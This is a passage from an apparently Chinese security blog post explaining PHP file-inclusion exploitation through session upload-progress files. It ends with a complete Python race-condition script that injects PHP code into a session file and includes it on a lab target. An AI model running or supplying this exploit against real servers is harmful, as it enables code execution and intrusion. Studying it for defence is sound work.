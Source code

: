
上述的两个方法，其实都没有解决本篇文章遇到的问题，毕竟Docker环境即不存在phpinfo也不存在Windows特性。

第三个方法也已经广为流传，PHP中可以通过session progress功能实现临时文件的写入。这种利用方式需要满足下面几个条件：

*   目标环境开启了`session.upload_progress.enable`选项
*   发送一个文件上传请求，其中包含一个文件表单和一个名字是`PHP_SESSION_UPLOAD_PROGRESS`的字段
*   请求的Cookie中包含Session ID

这个方法的原理是，PHP在开启了`session.upload_progress.enable`后（在包括Docker的大部分环境下默认是开启的），将会把用户上传文件的信息保存在Session中，而PHP的Session默认是保存在文件里的。

所以当攻击者发送满足上述条件的数据包时，就等于能够控制Session文件内容。

我们可以尝试发送满足上述条件的数据包来测试一下，但会发现虽然我们可以让PHP开启Session，从而在/tmp目录下遗留下Session文件，但这个文件内容是空的。

原因是，PHP中还有另外一个配置项`session.upload_progress.cleanup`，默认开启。在这个选项开启时，PHP会在上传请求被读取完成后自动清理掉这个Session，如果我们尝试把这个选项关闭，就可以读取到Session文件的内容了：

![](https://storage.tttang.com/media/attachment/2021/11/01/f50ee756-5412-4ceb-85db-faa56d8d94ab.png)

> 注意的是，如果我们只上传一个文件，这里也是不会遗留下Session文件的，所以表单里必须有两个以上的文件上传。

所以，默认情况下，我们需要在Session文件被清理前利用它，这也会用到条件竞争（Race Condition）。

因为这里的Session文件名是可控的，所以相比于0x02的条件竞争，这个会简单很多。我写了一个小脚本来利用，几乎没有失败过：

```python
import threading
import requests
from concurrent.futures import ThreadPoolExecutor, wait

target = 'http://192.168.1.162:8080/index.php'
session = requests.session()
flag = 'helloworld'

def upload(e: threading.Event):
    files = [
        ('file', ('load.png', b'a' * 40960, 'image/png')),
    ]
    data = {'PHP_SESSION_UPLOAD_PROGRESS': rf'''<?php file_put_contents('/tmp/success', '<?=phpinfo()?>'); echo('{flag}'); ?>'''}

    while not e.is_set():
        requests.post(
            target,
            data=data,
            files=files,
            cookies={'PHPSESSID': flag},
        )

def write(e: threading.Event):
    while not e.is_set():
        response = requests.get(
            f'{target}?file=/tmp/sess_{flag}',
        )

        if flag.encode() in response.content:
            e.set()

if __name__ == '__main__':
    futures = []
    event = threading.Event()
    pool = ThreadPoolExecutor(15)
    for i in range(10):
        futures.append(pool.submit(upload, event))

    for i in range(5):
        futures.append(pool.submit(write, event))
```